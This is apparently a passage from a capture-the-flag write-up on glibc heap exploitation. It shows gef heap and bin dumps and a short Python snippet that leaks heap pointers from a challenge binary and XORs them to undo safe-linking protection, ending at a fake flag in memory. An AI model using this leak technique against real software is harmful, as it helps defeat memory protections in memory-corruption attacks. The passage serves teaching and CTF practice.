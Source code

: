 ```
Chunk(addr=0x55deb089f420, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055deb089f420     df fc 62 ed db 55 00 00 26 93 df df 63 ce 28 b1    ..b..U..&...c.(.]
Chunk(addr=0x55deb089f440, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055deb089f440     ff fc 62 ed db 55 00 00 26 93 df df 63 ce 28 b1    ..b..U..&...c.(.]
Chunk(addr=0x55deb089f460, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055deb089f460     1f fc 62 ed db 55 00 00 26 93 df df 63 ce 28 b1    ..b..U..&...c.(.]
Chunk(addr=0x55deb089f480, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055deb089f480     9f 08 eb 5d 05 00 00 00 26 93 df df 63 ce 28 b1    ...]....&...c.(.]
Chunk(addr=0x55deb089f4a0, size=0x20b70, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
gef➤  heap bins
─ Tcachebins for thread 1 ─
Tcachebins[idx=0, size=0x20, count=6] ←  Chunk(addr=0x55deb089f380, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x55deb089f400, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x55deb089f420, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x55deb089f440, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x55deb089f460, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x55deb089f480, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 
─ Fastbins for arena at 0x7ff01a133c60 ─
Fastbins[idx=0, size=0x20]  ←  Chunk(addr=0x55deb089f3a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x55deb089f3e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 
gef➤  x/16gx 0x000055deb089f2a0
0x55deb089f2a0:	0x000055deb089f330	0x000055deb089f3c0
0x55deb089f2b0:	0x000055deb089f3a0	0x000055deb089f3c0
0x55deb089f2c0:	0x000055deb089f3e0	0x0000000000000000
0x55deb089f2d0:	0x0000000000000000	0x0000000000000000
0x55deb089f2e0:	0x0000000000000000	0x0000000000000000
0x55deb089f2f0:	0x0000000000000000	0x0000000000000000
0x55deb089f300:	0x0000000000000000	0x0000000000000000
0x55deb089f310:	0x0000000000000000	0x0000000000000000
```
We can see that we created a lot of chunks that are now in the `tcachebin`. Then, we can see that the two chunks in the `fastbin` are available through the slot 2 (to get one address in the heap), and slot 4 to get the address to the base of the heap. When you have these both data, you can get the real address to the heap by doing a XOR operation between the two data:
```py
a4 = read_memory(b'4\n') # Get the base address
a2 = read_memory(b'2\n') # Get a protected address to the heap

# Perform XOR operation to get the real address to the heap
base_address = bytes(reversed(a4)).hex()
protected_address = bytes(reversed(a2)).hex()
unprotected_address = hex(int(base_address, 16) ^ int(protected_address, 16))[2:]
print("Protected = 0x" + protected_address)
print("Unprotected = 0x" + unprotected_address)
```
By running this, you will get these addresses:
```
Protected = 0x55c8579677bc
Unprotected = 0x55cd0b46c3d0
```
And you can look at `gdb` to see where it points:
```
gef➤  heap chunks
Chunk(addr=0x55cd0b46c010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055cd0b46c010     06 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x55cd0b46c2a0, size=0x90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055cd0b46c2a0     30 c3 46 0b cd 55 00 00 c0 c3 46 0b cd 55 00 00    0.F..U....F..U..]
Chunk(addr=0x55cd0b46c330, size=0x50, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055cd0b46c330     73 72 64 6e 6c 65 6e 7b 66 61 6b 65 5f 66 6c 61    srdnlen{fake_fla]
Chunk(addr=0x55cd0b46c380, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055cd0b46c380     6c 70 96 57 c8 55 00 00 e2 e7 c2 d0 ab d9 8f b3    lp.W.U..........]
Chunk(addr=0x55cd0b46c3a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
```